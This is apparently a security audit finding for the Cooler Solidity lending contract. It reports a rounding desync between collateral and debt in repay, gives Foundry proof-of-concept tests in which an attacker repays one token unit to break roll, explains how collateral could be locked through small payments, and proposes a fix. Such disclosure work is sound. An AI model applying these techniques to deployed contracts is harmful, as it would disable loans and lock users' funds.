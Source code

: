 Allarious

high

# Payment function can cause desync between `collateral` and the `amount`

## Summary
The `repay` function does not calculate the amount of  `collateral` that is related to `repaid` correctly and can cause a desync between `loan.collateral` and `loan.amount`

## Vulnerability Detail
The `repay` function can be used by the borrower or anyone in the network to repay the debt to the lender gradually. However, since the collateral calculation uses division, solidity rounds down the collateral amount, making in possible for collateral and the amount to become desynced. This is more important in two cases:

* If the `loan.amount` is much more than `loan.collateral`. In other words, the collateral token is way more valuable than the loan token.
* If the decimal points in the two ERC20 tokens is implemented differently and other than 1e18

the desync between the collateral can have side effects:

* The line below in `roll` function might underflow and disable the `roll` functionality. Any attacker in the network can break this functionality by paying a small amount of the debt. However, equation `interest + 1 < loan.amount/loan.collateral` should hold true for this attack to work. This is because the minimum payment should pay the interest and be small enough to not change the collateral. In the PoC below, attacker can pay 1e-18 of the debt token and break the funcitonality since the interest rate is zero.
```solidity
uint256 newCollateral = collateralFor(loan.amount, req.loanToCollateral) - loan.collateral;
```
* It can cause some of the collateral get locked inside the contract and not accessible by the owner or anyone else. The attacker can use this property and lock all the collateral of the borrower by paying all of the position in small payments. This means that anyone can default a position and the price is paying the position's debt to the lender + gas fees of the small transactions.

## Impact
https://github.com/sherlock-audit/2023-01-cooler/blob/main/src/Cooler.sol#L114
https://github.com/sherlock-audit/2023-01-cooler/blob/main/src/Cooler.sol#L139

## Code Snippet
Both of the round down bug and break the roll functionality can be found below:
```solidity
  contract testRepayRoundDown is Test {
    ERC20 public token1;
    ERC20 public token2;

    CoolerFactory public factory;
    Cooler public cooler;

    address public lender;
    address public borrower;
    address public attacker;

    uint256 LENDER_INITIAL_BALANCE = 1e20 ether;
    uint256 BORROWER_INITIAL_BALANCE = 1e20 ether;
    uint256 ATTACKER_INITIAL_BALANCE = 1e20 ether;

    function setUp() public {
        lender = vm.addr(1);
        borrower = vm.addr(2);
        attacker = vm.addr(3);

        token1 = new ERC20("token1", "TK1"); // Collateral
        token2 = new ERC20("token2", "TK2"); // Debt

        token1.mint(lender, LENDER_INITIAL_BALANCE);
        token2.mint(lender, LENDER_INITIAL_BALANCE);

        token1.mint(borrower, BORROWER_INITIAL_BALANCE);
        token2.mint(borrower, BORROWER_INITIAL_BALANCE);

        token1.mint(attacker, ATTACKER_INITIAL_BALANCE);
        token2.mint(attacker, ATTACKER_INITIAL_BALANCE);

        factory = new CoolerFactory();
        cooler = Cooler(factory.generate(token1, token2));
    }

    function testSmallPayment() public {
        vm.startPrank(borrower);
        token1.approve(address(cooler), 1e20 ether);
        uint256 reqID = cooler.request(
            1e30, // maps to 1e20 collateral
            0, // to make things easier here, interest does not matter here
            1e28, // exchange rate of 1 to 1e10!
            10 days
        );
        vm.stopPrank();

        vm.startPrank(lender);
        token2.approve(address(cooler), 1e30);
        uint256 loanID = cooler.clear(reqID); // lender takes the deal
        vm.stopPrank();

        assertEq(cooler.getCollateralOf(loanID), 1e20); // added getCollateralOf and getAmountOf as a getter function for test purposes, they fetch the collateral and amount of a loanID
        assertEq(cooler.getAmountOf(loanID), 1e30);

        /**
         * We pay one less than the threshold needed to pay to show that collateral does not decrease
         */

        address owner = address(this); // this test contract is the owner of the Cooler contract deployed

        uint256 previousBorrowerCollateralBalance = token1.balanceOf(owner);

        vm.startPrank(borrower);
        token2.approve(address(cooler), 1e30); // approving more than needed for future payments
        cooler.repay(loanID, 1e10 - 1);
        vm.stopPrank();

        // console.log(cooler.getCollateralOf(loanID));
        // console.log(cooler.getAmountOf(loanID));

        assertEq(cooler.getCollateralOf(loanID), 1e20); // collateral stays the same
        assertEq(cooler.getAmountOf(loanID), 1e30 - (1e10 - 1)); // while the amount payed decreases
        assertEq(token1.balanceOf(owner), previousBorrowerCollateralBalance);

        /**
         * Now we pay enough to show that the collateral changes
         */
        
        previousBorrowerCollateralBalance = token1.balanceOf(owner);

        vm.startPrank(borrower);
        cooler.repay(loanID, 1e10);
        vm.stopPrank(); 

        assertLt(cooler.getCollateralOf(loanID), 1e20); // collateral decreased
        assertLt(cooler.getAmountOf(loanID), 1e30 - (1e10 - 1)); // amount decreased
        assertGt(token1.balanceOf(owner), previousBorrowerCollateralBalance); // balance increase
    }

    /**
     * Breaking the roll functionality
     */
    function testBreakRollFunctionality() public {
       vm.startPrank(borrower);
        token1.approve(address(cooler), 1e20 ether);
        uint256 reqID = cooler.request(
            1e30, // maps to 1e20 collateral
            0, // Attacker should pay more than the interest of a loan position while not updating the collateral to break the roll functionality. It would happen easily with interest of 0 percent.
            1e28, // exchange rate of 1 to 1e10!
            10 days
        );
        vm.stopPrank();

        vm.startPrank(lender);
        token2.approve(address(cooler), 1e30);
        uint256 loanID = cooler.clear(reqID); // lender takes the deal
        vm.stopPrank();

        assertEq(cooler.getCollateralOf(loanID), 1e20); // added getCollateralOf and getAmountOf as a getter function for test purposes, they fetch the collateral and amount of a loanID
        assertEq(cooler.getAmountOf(loanID), 1e30); 

        vm.startPrank(attacker);
        token2.approve(address(cooler), 1); // Attacker can break the functionality by paying only 1 of the token!
        cooler.repay(loanID, 1);
        vm.stopPrank();

        vm.expectRevert(stdError.arithmeticError); // Underflow happens
        vm.prank(borrower);
        cooler.roll(loanID);
    }
}
```

## Tool used

Manual Review

## Recommendation
The main problem arises from the repay function, it can be fixed by changing the repay function according to the diff shown bellow:
```solidity
@@ -110,16 +110,18 @@ contract Cooler {
 
         if (block.timestamp > loan.expiry) 
             revert Default();
+       
+       if(repaid > loan.amount){
+             repaid = loan.amount;
+       }
+       require(loan.collateral * repaid > loan.amount, "payment too low");
         
         uint256 decollateralized = loan.collateral * repaid / loan.amount;
+        uint256 repaidCorrection = decollateralized * loan.amount / loan.collateral;
+        assert(repaidCorrection <= repaid);
 
         if (repaid == loan.amount) delete loans[loanID];
         else {
-            loan.amount -= repaid;
+            loan.amount -= repaidCorrection;
             loan.collateral -= decollateralized;
         }
 
-        debt.transferFrom(msg.sender, loan.lender, repaid);
+        debt.transferFrom(msg.sender, loan.lender, repaidCorrection);
         collateral.transfer(owner, decollateralized);
     }
```
